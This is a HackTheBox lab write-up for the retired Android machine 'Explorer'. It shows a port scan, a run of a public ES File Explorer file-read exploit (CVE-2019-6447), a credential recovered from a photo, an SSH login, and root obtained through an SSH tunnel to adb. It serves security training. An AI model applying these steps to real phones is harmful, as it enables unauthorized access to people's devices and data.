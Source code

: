 Title:HTB: Exlore
Date: 11-01-2021 09:15
category:security
tags:security, boot2root, HTB, Android, exploit, adb
meta:security, boot2root, HTB, Android, exploit, adb

<img class="align-left" src="/media/2021.11/explorer_card.png" alt="Explorer card" width="262">


This is a writeup about a retired HacktheBox machine:
[Explorer](https://www.hackthebox.eu/home/machines/profile/356) created by
[bertolis](https://www.hackthebox.eu/home/users/profile/27897) and publish on
June 26, 2021.
This box is classified as an easy machine. The user part involves an Android
exploit for ES File Explorer and the root part a simple port forward and an `adb` shell.

<!-- PELICAN_END_SUMMARY -->

# User

## Reco

We start with an nmap scan. Only ports 22 (SSH) and 8080 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Sat Jul 10 02:07:06 2021 as: nmap -sSV -A -p- -oN notes.md 10.129.153.142
    Nmap scan report for 10.129.153.142
    Host is up (0.012s latency).
    Not shown: 65530 closed ports
    PORT      STATE    SERVICE VERSION
    2222/tcp  open     ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    5555/tcp  filtered freeciv
    33427/tcp open     unknown
    <SNIP>
    42135/tcp open     http    ES File Explorer Name Response httpd
    |_http-title: Site doesn't have a title (text/html).
    59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
    |_http-title: Site doesn't have a title (text/plain).
    <SNIP>

The nmap scan hint us that the "box" is an Android device (port 5555 for adb,
Banana ssh server and ES File Explorer).

A quick google search "ES File Explorer exploit" allows us to find an
[arbitrary file read exploit](https://www.exploit-db.com/exploits/50070).

We run it and are able to list the files on the Android phone but nothing there
will give us a shell (we are still abe to get the user flag).
We list the pictures and found the `creds.png` file.


    :::text
    └─$ python3 50070.py listPics 10.129.153.142

    ==================================================================
    |    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
    |                Coded By : Nehal a.k.a PwnerSec                 |
    ==================================================================

    name : concept.jpg
    time : 4/21/21 02:38:08 AM
    location : /storage/emulated/0/DCIM/concept.jpg
    size : 135.33 KB (138,573 Bytes)

    name : anc.png
    time : 4/21/21 02:37:50 AM
    location : /storage/emulated/0/DCIM/anc.png
    size : 6.24 KB (6,392 Bytes)

    name : creds.jpg
    time : 4/21/21 02:38:18 AM
    location : /storage/emulated/0/DCIM/creds.jpg
    size : 1.14 MB (1,200,401 Bytes)

    name : 224_anc.png
    time : 4/21/21 02:37:21 AM
    location : /storage/emulated/0/DCIM/224_anc.png
    size : 124.88 KB (127,876 Bytes)


The file is a picture of (beautifully) handwritten credential: `kristi:Kr1sT!5h@Rp3xPl0r3!`

We can use this credentials to connect using SSH and get the user flag.

    :::text
    └─$ ssh kristi@10.129.153.142 -p2222 #Kr1sT!5h@Rp3xPl0r3!
    Password authentication
    Password:
    Password authentication
    Password:
    Password authentication
    Password:
    kristi@10.129.153.142's password:
    :/ $ id
    uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    :/ $ cat /sdcard/user.txt
    f32017174c7c7e8f50c6da52891ae250

# Root

We saw in out initial port scan that the port 5555 (adb) was filtered. We use
SSH to access the port directly from the device by creating an SSH Local forward
tunnel.

    :::text
    └─$ ssh -L 5557:127.0.0.1:5555 kristi@10.129.43.55 -p2222
    Password authentication
    Password:
    :/ $ id
    uid=10076(u0_a76)

In another terminal we can run `adb` to list the device, connect to the box,
run a shell as root and grab the flag.

    :::text
    └─$ adb devices
    List of devices attached
    127.0.0.1:5557  device
    └─$ adb connect 127.0.0.1:5557
    already connected to 127.0.0.1:5557
    └─$ adb -s 127.0.0.1:5557 shell                                                                                                                                                                                                          1 ⨯
    x86_64:/ $ su
    :/ # id
    uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
    :/ # find / -name 'root.txt' 2> /dev/null
    /data/root.txt
    1|:/ # cat data/root.txt
    f04fc82b6d49b41c9b08982be59338c5

## Wrapping up

A "quick" and easy box. I spent way to much time on the root part as my `adb`
demon was acting weirdly and I thought the issue was on my port forwarding.

